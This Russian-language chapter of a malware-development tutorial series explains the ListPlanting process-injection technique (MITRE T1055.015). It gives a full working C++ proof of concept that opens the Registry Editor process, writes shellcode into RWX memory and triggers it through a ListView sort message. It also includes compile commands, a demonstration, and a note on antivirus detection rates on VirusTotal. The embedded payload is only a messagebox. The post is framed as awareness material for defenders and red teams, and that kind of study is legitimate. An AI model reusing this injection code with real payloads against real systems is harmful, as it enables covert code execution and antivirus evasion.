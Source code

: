 \newpage
\subsection{37. трюки разработки вредоносного ПО. Listplanting. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

Привет, энтузиасты кибербезопасности и белые хакеры!

![инъекция](./images/81/2022-11-28_03-03.png){width="80%"}    

Этот пост является результатом моего собственного исследования трюка разработки вредоносного ПО: Listplanting.     

Используя сообщения `LVM_SORTGROUPS`, `LVM_INSERTGROUPSORTED` и `LVM_SORTITEMS`, можно изменить поведение сортировки элементов и групп `ListView`-контрола в соответствии с индивидуальными предпочтениями. `ListView`-контролы - это окна пользовательского интерфейса, которые отображают группы элементов. Контрол `SysListView32` хранит информацию о параметрах представления списка приложения в памяти процесса.    

*ListPlanting* может быть выполнен путём копирования кода в виртуальное адресное пространство процесса, использующего `ListView`-контрол, а затем использования этого кода в качестве пользовательской функции обратного вызова для сортировки элементов списка.    

### практический пример

Рассмотрим практический пример. Трюк довольно прост:    

Сначала получаем хендл окна:

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

Затем получаем идентификатор процесса и открываем его (получаем хендл процесса с помощью `OpenProcess`):   

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

На следующем шаге выделяем RWX-память через `VirtualAllocEx` и "копируем" полезную нагрузку:     

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// копируем полезную нагрузку
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

Наконец, запускаем полезную нагрузку:    

```cpp
// запускаем полезную нагрузку
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

Согласно [документации](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea), `PostMessage` - помещает (отправляет) сообщение в очередь сообщений, связанную с потоком, который создал указанное окно, и возвращает управление, не дожидаясь обработки сообщения потоком.      

Полный исходный код моего PoC:      

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT,
   PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![инъекция](./images/81/2022-11-28_03-25.png){width="80%"}    

Затем запускаем редактор реестра на машине жертвы (`Windows 10 x64` в моём случае):      

![инъекция](./images/81/2022-11-28_04-11.png){width="80%"}    

И запускаем наш `hack.exe`:    

```powershell
.\hack.exe
```

![инъекция](./images/81/2022-11-28_04-13.png){width="80%"}    

![инъекция](./images/81/2022-11-28_04-13_1.png){width="80%"}    

Запускаем от имени администратора, так как для инъекции в редактор реестра (`regedit.exe`) требуются повышенные привилегии.     

Для проверки корректности запускаем `Process Hacker 2` от имени администратора и проверяем вкладку *память*:     

![инъекция](./images/81/2022-11-28_04-16.png){width="80%"}    

![инъекция](./images/81/2022-11-28_04-18.png){width="80%"}    

Как можно заметить, всё работает идеально :)    

Давайте загрузим `hack.exe` на VirusTotal:    

![инъекция](./images/81/2022-11-28_04-21.png){width="80%"}    

**Итак, 19 из 71 антивирусных движков определили наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection](https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection)     

Эта техника используется в [InvisiMole](https://attack.mitre.org/software/S0260/). *InvisiMole* - это модульное шпионское программное обеспечение, которое группа InvisiMole использует как минимум с 2013 года.      

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)      
[InvisiMole](https://attack.mitre.org/software/S0260/)     
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-27-malware-tricks-24)       
